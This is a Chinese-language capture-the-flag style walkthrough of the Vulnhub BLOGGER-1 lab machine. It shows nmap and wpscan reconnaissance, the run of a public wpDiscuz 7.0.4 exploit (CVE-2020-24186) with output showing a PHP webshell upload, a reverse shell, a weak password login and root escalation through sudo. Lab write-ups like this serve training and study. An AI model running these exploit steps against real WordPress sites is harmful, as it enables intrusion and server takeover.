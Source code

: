 ```yaml
---
title: Vulnhub	675 BLOGGER-1
date: 2021-04-04
---
```

考点：wpscan,WPDiscuz,base64

靶机链接：<https://www.vulnhub.com/entry/blogger-1,675/>

<!--more-->

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| BLOGGER-1  | 10.0.2.15 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.15
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### WEB测试

#### dirsearch

发现`/assets/`目录，点了点几个目录，发现wordpress

![1](https://www.vulnhub.cn/walkthrough/675/1.webp)

绑定域名

![2](https://www.vulnhub.cn/walkthrough/675/2.webp)

#### wpscan

默认参数扫描发现无插件信息，只好穷举插件了

```bash
$ wpscan --url http://10.0.2.15/assets/fonts/blog/ --plugins-detection aggressive
```

![3](https://www.vulnhub.cn/walkthrough/675/3.webp)

发现`wpdiscuz`插件

## 获得权限

![4](https://www.vulnhub.cn/walkthrough/675/4.webp)

```bash
$ searchsploit wpdiscuz
$ searchsploit -m php/webapps/49967.py
$ python 49967.py -u http://10.0.2.15/assets/fonts/blog/ -p /?p=29
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[59453] | code:[200]
[!] Got wmuSecurity value: a79c058f94
[!] Got wmuSecurity value: 29 

[+] Generating random name for Webshell...
[!] Generated webshell name: aoixhruomuxeias

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/aoixhruomuxeias-1663424364.4294.php&quot; 
```

![5](https://www.vulnhub.cn/walkthrough/675/5.webp)

本地监听，下载反弹shell并访问，获得反弹shell，`/home`获得三个用户

尝试弱口令，发现`vagrant`密码就是`vagrant`

![6](https://www.vulnhub.cn/walkthrough/675/6.webp)


## 提权

执行`sudo -l`发现`vagrant`可直接切`root`

![7](https://www.vulnhub.cn/walkthrough/675/7.webp)

### 小彩蛋

```bash
# cat root.txt|base64 -d
cat root.txt|base64 -d
Hey There,
Myself Gaurav Raj, Hacker, Programmer & FreeLancer.
This is my first attempt to create a room. Let me know if you liked it.
Any issue or suggestions for me. Ping me at twitter

Twitter: @thehackersbrain
Github: @thehackersbrain
Instagram: @thehackersbrain
Blog: https://thehackersbrain.pythonanywhere.com


Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
/root/

# cat user.txt|base64 -d
cat user.txt|base64 -d
flag{Y0u_D!D_17 :)}
```

